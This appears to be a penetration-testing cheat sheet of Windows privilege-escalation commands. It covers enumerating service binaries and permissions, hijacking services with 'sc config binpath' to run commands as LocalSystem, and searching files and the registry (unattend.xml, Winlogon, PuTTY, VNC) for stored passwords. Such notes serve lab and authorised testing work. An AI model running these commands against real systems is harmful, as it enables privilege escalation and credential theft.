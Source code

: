 # OS

Lots of time can be saved by running winPeas or a different script but below is how you can check stuff manualy and lots of stuff not done by the scripts

SAMBA? look under `445-smb` in the `Enumeration/port_enumeration` folder

Watson - https://github.com/rasta-mouse/Watson
WinPeas - https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS


## LDAP - Perform Windows domain enumeration via LDAP
https://github.com/ZeroPointSecurity/Domain-Enumeration-Tool


## Writable Service Executables
```
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\services.txt
```
If wmic is not available:
```
sc query state= all | findstr "SERVICE_NAME:" >> servicenames.txt
FOR /F "tokens=2 delims= " %i in (servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```
Then use either accesschk.exe, cacls, or icacls to list the access permissions associated with each service executable:
```
for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c accesschk.exe /accepteula -qv "%a" >> accesschk.txt

for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c cacls "%a" >> cacls.txt

for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\services.txt) do cmd.exe /c icacls "%a" >> icacls.txt
```
With accesschk results, look for the following permissions:

Permission	Use Case
SERVICE_ALL_ACCESS	Can do anything.
SERVICE_CHANGE_CONFIG	Can reconfigure the service binary.
WRITE DAC	Can reconfigure permissions, leading to SERVICE_CHANGE_CONFIG.
WRITE_OWNER	Can become owner, reconfigure permissions.
GENERIC_WRITE	Inherits SERVICE_CHANGE_CONFIG
GENERIC_ALL	Inherits SERVICE_CHANGE_CONFIG
With cacls and icacls, look for (F)ull Access, (M)odify access, (W)rite-only access, (WDAC) write DAC, or (WO) write owner.

## Writable Service Objects(priv esclatation)
Use accesschk.exe to find writable service objects:
```
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```
```
sc qc <service>
```
Update the service binary path:
```
sc config <service> binpath= "<command>"
```
Update the name of the account which a service runs as:
```
sc config upnphost obj= ".\LocalSystem" password= ""
```
Stop / Start a service:
```
wmic service <service> call stopservice
wmic service <service> call startservice

net stop <service>
net start <service>

sc stop <service>
sc start <service>
```
If the service fails to start because of a dependency, you can start the dependency manually, or remove the dependency:
```
sc config <service> depend= ""
```
All-in-one comnand:
```
sc config <service> binPath= "<command>" depend= "" start= demand obj= ".\LocalSystem" password= ""
```
## Cleartext Passwords
```
findstr /si password *.txt *.xml *.ini
```
```
dir /s *pass* == *cred* == *vnc* == *.config*
```
```
findstr /spin "password" *.*
```

Common files which contain passwords:
```
type c:\sysprep.inf
type c:\sysprep\sysprep.xml
type c:\unattend.xml
type %WINDIR%\Panther\Unattend\Unattended.xml
type %WINDIR%\Panther\Unattended.xml
dir c:*vnc.ini /s /b
dir c:*ultravnc.ini /s /b
dir c:\ /s /b | findstr /si *vnc.ini
```
Search for passwords in the registry:
```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
```

# RDP
use xfreerdp!
```
sudo xfreerdp /v:10.129.56.77 /cert:ignore /u:Administrator
```
